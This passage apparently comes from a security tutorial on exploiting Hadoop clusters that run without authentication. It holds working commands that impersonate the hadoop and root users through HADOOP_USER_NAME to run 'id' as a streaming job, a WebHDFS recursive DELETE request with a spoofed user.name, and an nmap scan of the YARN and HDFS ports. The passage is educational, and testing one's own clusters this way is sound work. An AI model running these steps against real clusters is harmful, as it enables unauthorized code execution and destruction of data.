 Whoops, forgot to *authenticate* first.

```
$ export HADOOP_USER_NAME=hadoop
$ hadoop jar hadoop-streaming.jar -input /test/test -output /test/out -mapper id -reducer NONE

$ hadoop fs -cat /test/out/part-00000
uid=1001(hadoop) gid=1001(hadoop) groups=1001(hadoop)
```

I mean *really* authenticate.

```
$ export HADOOP_USER_NAME=root
$ hadoop fs -mkdir /tmp/input
$ hadoop fs -touchz /tmp/input/123

$ hadoop jar hadoop-streaming.jar -input /test/123 -output /tmp/out -mapper "id" -reducer NONE
INFO mapreduce.Job: Job job_1603984220990_0006 completed successfully

$ hadoop fs -cat /tmp/out/part-00000
uid=0(root) gid=0(root) groups=0(root)
```

There's an excellent collection of notes that cover many techniques which you can find [here](https://github.com/wavestone-cdt/hadoop-attack-library/tree/master/Tools%20Techniques%20and%20Procedures/Executing%20remote%20commands).

**Same thing with WebHDFS**

Feel free to spin up a web browser or and these types of requests yourself. You can generate more of them just by clicking around or reading the REST API [docs](https://hadoop.apache.org/docs/r1.2.1/webhdfs.html). Throw Burp in the middle if you feel so inclined and play around.

*DELETE /webhdfs/v1/abc?op=DELETE&recursive=true* - **fails**

*DELETE /webhdfs/v1/abc?op=DELETE&recursive=true&user.name=hadoop* - **succeeds**

As it says in the docs...

> When security is off, the authenticated user is the username specified in the user.name query parameter.

### Remote Command Execution

Check if ports 8032 (yarn), 9000 (namenode), 50010 (hdfs) are open. Yarn is the resource manager that handles job submissions, NameNode is the HDFS metadata service and lastly we have the HDFS DataNode service.

```
$ nmap -p 8032,9000,50010 172.17.0.3    
PORT      STATE SERVICE
8032/tcp  open  pro-ed
9000/tcp  open  cslistener
50010/tcp open  unknown
```

Now taking it for a test drive with our streaming jar, again specifying the input, output, mapper and reducer params but also the -fs and -jt flags for the remote server.
